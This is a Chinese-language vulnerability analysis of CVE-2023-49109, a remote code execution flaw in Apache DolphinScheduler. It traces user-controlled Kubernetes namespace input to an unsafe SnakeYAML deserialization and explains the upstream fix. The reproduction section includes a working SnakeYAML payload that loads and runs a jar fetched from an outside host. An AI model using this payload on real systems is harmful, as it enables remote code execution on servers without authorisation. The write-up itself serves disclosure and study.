

# Remote Code Execution in Apache Dolphinscheduler(CVE-2023-49109) - 先知社区

Remote Code Execution in Apache Dolphinscheduler(CVE-2023-49109)

- - -

# 漏洞描述

在 Apache Dolphinscheduler 中暴露远程代码执行。此问题会影响 Apache Dolphinescent：3.2.1 之前的版本。我们建议用户将 Apache Dolphinescent 升级到 3.2.1 版本，该版本可以修复此问题。

# 漏洞版本

3.0.0 <= version < 3.2.1

# 环境搭建

官网下载源码及 bin 运行包

```plain
tar -xvzf apache-dolphinscheduler-*-bin.tar.gz
cd apache-dolphinscheduler-*-bin
bash ./bin/dolphinscheduler-daemon.sh start standalone-server
```

修改 jvm 在 standalone-server/bin/start.sh

访问[http://localhost:12345/dolphinscheduler/ui](http://localhost:12345/dolphinscheduler/ui)

-   admin/dolphinscheduler123

# 代码分析

先看修复补丁：[\[Improvement\]\[K8S\] Remove ResourceQuota by Gallardot · Pull Request #14991 · apache/dolphinscheduler · GitHub](https://github.com/apache/dolphinscheduler/pull/14991/files)

比较直观的看出漏洞点从 K8sNamespaceController 进入，断点到实现类：  
org.apache.dolphinscheduler.api.service.impl.K8SNamespaceServiceImpl#createK8sNamespace

```plain
@Override  
public Map<String, Object> createK8sNamespace(User loginUser, String namespace, Long clusterCode, Double limitsCpu,  
                                              Integer limitsMemory) {  
    Map<String, Object> result = new HashMap<>();  
    if (isNotAdmin(loginUser, result)) {  
        log.warn("Only admin can create K8s namespace, current login user name:{}.", loginUser.getUserName());  
        return result;  
    }  

    if (StringUtils.isEmpty(namespace)) {  
        log.warn("Parameter namespace is empty.");  
        putMsg(result, Status.REQUEST_PARAMS_NOT_VALID_ERROR, Constants.NAMESPACE);  
        return result;  
    }  

    if (clusterCode == null) {  
        log.warn("Parameter clusterCode is null.");  
        putMsg(result, Status.REQUEST_PARAMS_NOT_VALID_ERROR, Constants.CLUSTER);  
        return result;  
    }  

    if (limitsCpu != null && limitsCpu < 0.0) {  
        log.warn("Parameter limitsCpu is invalid.");  
        putMsg(result, Status.REQUEST_PARAMS_NOT_VALID_ERROR, Constants.LIMITS_CPU);  
        return result;  
    }  

    if (limitsMemory != null && limitsMemory < 0) {  
        log.warn("Parameter limitsMemory is invalid.");  
        putMsg(result, Status.REQUEST_PARAMS_NOT_VALID_ERROR, Constants.LIMITS_MEMORY);  
        return result;  
    }  

    if (checkNamespaceExistInDb(namespace, clusterCode)) {  
        log.warn("K8S namespace already exists.");  
        putMsg(result, Status.K8S_NAMESPACE_EXIST, namespace, clusterCode);  
        return result;  
    }  

    Cluster cluster = clusterMapper.queryByClusterCode(clusterCode);  
    if (cluster == null) {  
        log.error("Cluster does not exist, clusterCode:{}", clusterCode);  
        putMsg(result, Status.CLUSTER_NOT_EXISTS, namespace, clusterCode);  
        return result;  
    }  

    long code = 0L;  
    try {  
        code = CodeGenerateUtils.getInstance().genCode();  
        cluster.setCode(code);  
    } catch (CodeGenerateUtils.CodeGenerateException e) {  
        log.error("Generate cluster code error.", e);  
    }  
    if (code == 0L) {  
        putMsg(result, Status.INTERNAL_SERVER_ERROR_ARGS, "Error generating cluster code");  
        return result;  
    }  

    K8sNamespace k8sNamespaceObj = new K8sNamespace();  
    Date now = new Date();  

    k8sNamespaceObj.setCode(code);  
    k8sNamespaceObj.setNamespace(namespace);  
    k8sNamespaceObj.setClusterCode(clusterCode);  
    k8sNamespaceObj.setUserId(loginUser.getId());  
    k8sNamespaceObj.setLimitsCpu(limitsCpu);  
    k8sNamespaceObj.setLimitsMemory(limitsMemory);  
    k8sNamespaceObj.setPodReplicas(0);  
    k8sNamespaceObj.setPodRequestCpu(0.0);  
    k8sNamespaceObj.setPodRequestMemory(0);  
    k8sNamespaceObj.setCreateTime(now);  
    k8sNamespaceObj.setUpdateTime(now);  

    if (!Constants.K8S_LOCAL_TEST_CLUSTER_CODE.equals(k8sNamespaceObj.getClusterCode())) {  
        try {  
            String yamlStr = genDefaultResourceYaml(k8sNamespaceObj);  
            k8sClientService.upsertNamespaceAndResourceToK8s(k8sNamespaceObj, yamlStr);  
        } catch (Exception e) {  
            log.error("Namespace create to k8s error", e);  
            putMsg(result, Status.K8S_CLIENT_OPS_ERROR, e.getMessage());  
            return result;  
        }  
    }  

    k8sNamespaceMapper.insert(k8sNamespaceObj);  
    log.info("K8s namespace create complete, namespace:{}.", k8sNamespaceObj.getNamespace());  
    putMsg(result, Status.SUCCESS);  

    return result;  
}
```

可以看到前半段对请求参数进行了校验判断，并使用参数创建了 k8sNamespaceObj  
重点在如下：

```plain
if (!Constants.K8S_LOCAL_TEST_CLUSTER_CODE.equals(k8sNamespaceObj.getClusterCode())) {  
    try {  
        String yamlStr = genDefaultResourceYaml(k8sNamespaceObj);  
        k8sClientService.upsertNamespaceAndResourceToK8s(k8sNamespaceObj, yamlStr);  
    } catch (Exception e) {  
        log.error("Namespace create to k8s error", e);  
        putMsg(result, Status.K8S_CLIENT_OPS_ERROR, e.getMessage());  
        return result;  
    }  
}
```

通过 k8sNamespaceObj 转化为 yamlStr（因为 k8sNamespaceObj 对象可控，所以 yamlStr 也可控）  
步入到 K8sClientService#upsertNamespaceAndResourceToK8s

```plain
public ResourceQuota upsertNamespaceAndResourceToK8s(K8sNamespace k8sNamespace,  
                                                     String yamlStr) throws RemotingException {  
    if (!checkNamespaceToK8s(k8sNamespace.getNamespace(), k8sNamespace.getClusterCode())) {  
        throw new RemotingException(String.format(  
                "namespace %s does not exist in k8s cluster, please create namespace in k8s cluster first",  
                k8sNamespace.getNamespace()));  
    }  
    return upsertNamespacedResourceToK8s(k8sNamespace, yamlStr);  
}
```

首先对 k8s 环境进行了校验，成功后会进入到 K8sClientService#upsertNamespacedResourceToK8s

```plain
private ResourceQuota upsertNamespacedResourceToK8s(K8sNamespace k8sNamespace,  
                                                    String yamlStr) throws RemotingException {  

    KubernetesClient client = k8sManager.getK8sClient(k8sNamespace.getClusterCode());  

    // 创建资源  
    ResourceQuota queryExist = client.resourceQuotas()  
            .inNamespace(k8sNamespace.getNamespace())  
            .withName(k8sNamespace.getNamespace())  
            .get();  

    ResourceQuota body = yaml.loadAs(yamlStr, ResourceQuota.class);  

    if (queryExist != null) {  
        if (k8sNamespace.getLimitsCpu() == null && k8sNamespace.getLimitsMemory() == null) {  
            client.resourceQuotas().inNamespace(k8sNamespace.getNamespace())  
                    .withName(k8sNamespace.getNamespace())  
                    .delete();  
            return null;  
        }  
    }  

    return client.resourceQuotas().inNamespace(k8sNamespace.getNamespace())  
            .withName(k8sNamespace.getNamespace())  
            .createOrReplace(body);  
}
```

前面获取 k8s 对象然后创建资源，然后对 yamlStr 通过 snakeYaml.loadAs 进行了反序列化  
snakeYmal 的创建如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228105617-f1369ea2-d5e4-1.png)

那么已知 SnakeYaml 反序列化存在利用，直接开始复现

# 漏洞复现

由于我使用 standalone 部署，所以无法通过 k8s 环境判断，这里直接通过 idea evaluate expression 复现  
首先进入 dolphinscheduler 后台

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228105625-f606ffee-d5e4-1.png)

安全中心->集群管理->创建集群  
创建任意集群（这里因为我使用的不是 k8s 环境，所以任意）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228105634-fbbc3274-d5e4-1.png)

然后在安全中心->k8s 命名空间管理->创建命名空间

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228105640-fefae110-d5e4-1.png)

k8s 集群选择刚刚创建的集群，命名空间为恶意的 snakeYaml 反序列化利用 payload

```plain
!!javax.script.ScriptEngineManager [   !!java.net.URLClassLoader [[     !!java.net.URL ["http://172.18.176.1:8377/yaml-payload.jar"]   ]] ]
```

断点在 org.apache.dolphinscheduler.api.k8s.K8sClientService#upsertNamespaceAndResourceToK8s，因为在这里还没经过 k8s 环境判断，且已经初始化好 yaml 对象

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228105645-02133d2a-d5e5-1.png)

可以看到此时 yamlStr 可控，然后使用 evaluate expression 执行以下（如果通过 k8s 环境校验，本身就会执行）

```plain
ResourceQuota body = yaml.loadAs(yamlStr, ResourceQuota.class);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228105653-06e99ff6-d5e5-1.png)

成功接收请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228105657-096edcd2-d5e5-1.png)

成功执行任意代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228105703-0caab57e-d5e5-1.png)

# 漏洞修复

还是看补丁[\[Improvement\]\[K8S\] Remove ResourceQuota by Gallardot · Pull Request #14991 · apache/dolphinscheduler · GitHub](https://github.com/apache/dolphinscheduler/pull/14991/files)  
删除了通过 yaml.loadAs 来反序列化对象的代码，无法再进行利用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228105735-20153530-d5e5-1.png)
